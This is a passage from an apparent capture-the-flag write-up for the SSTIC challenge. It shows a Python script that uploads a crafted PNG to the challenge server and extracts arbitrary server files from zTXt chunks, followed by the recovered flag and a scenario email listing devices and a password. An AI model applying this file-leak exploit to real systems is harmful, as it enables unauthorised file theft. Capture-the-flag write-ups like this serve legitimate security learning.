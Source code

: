 ```python

filename = sys.argv[1]
png = make_cve_png(filename)
r = requests.post("https://nft.quatre-qu.art/nft-library.php", data=dict(filedata=base64.b64encode(png)))
r.raise_for_status()
for ctype, cdata in chunks(io.BytesIO(r.content)):
    if ctype == b"zTXt" and cdata.startswith(b"Raw profile type"):
        data = zlib.decompress(cdata.split(b"\0\0", 1)[1])
        clean_filename = os.path.abspath(os.path.join("/1/2/3", filename))
        os.makedirs("leak/" + os.path.dirname(clean_filename), exist_ok=True)
        with open("leak/" + clean_filename, "wb") as outf:
            outf.write(bytes.fromhex(data.split(None, 1)[1].decode()))
        break
    print(ctype, cdata)
else:
    print("Error: no zTXt found!")
```

Running this to download [`nft-library.php`](chall/stage1/nft-library.php) produced the full original script, which contains this useful comment (translated):

```
// SSTIC{8c44f9aa39f4f69d26b91ae2b49ed4d2d029c0999e691f3122a883b01ee19fae}
// A backup of the infrastructure is available in the following files
// /backup.tgz, /devices.tgz
//
```

That's the stage 1 flag! I then used `dl-file.py` again to download [`backup.tgz`](chall/backup.tgz) and [`devices.tgz`](chall/devices.tgz).

## Main Challenge

Unpacking `backup.tgz` and `devices.tgz` yields a whole bunch of new files, including [`backup/info.eml`](chall/backup/info.eml), which reads (translated):

```
Hi Bertrand,

As you know, we are setting up the infrastructure for the upcoming release of our NFT on https://trois-pains-zero.quatre-qu.art/.
We have chosen to protect our administration interface using 4 of 4 multi-signature encryption using different devices to store private keys.


As a reminder, you will find the necessary files in the backup:

- the script I used to participate in the multi-signature protocol: musig2_player.py. I've also included the signature log file we made last Thursday along with our 4 public keys.

- a digital wallet for which you have the password: seedlocker.py

- a physical device, available here device.quatre-qu.art:8080, I think Charly has the password. If you want to test on your own equipment you will find the UI update on the backup server with the libc used. We have set up limitations, one based on proof of work, we have also provided you with the solver script (pow_solver.py) and a password "fudmH/MGzgUM7Zx3k6xMuvThTXh+ULf1".
The password is not the one for the equipment but the one for the protection.

- For the last equipment, Daniel lost his pin code.
We tried to extract the information by attacking the secure memory with fault injections but without success 😒.
```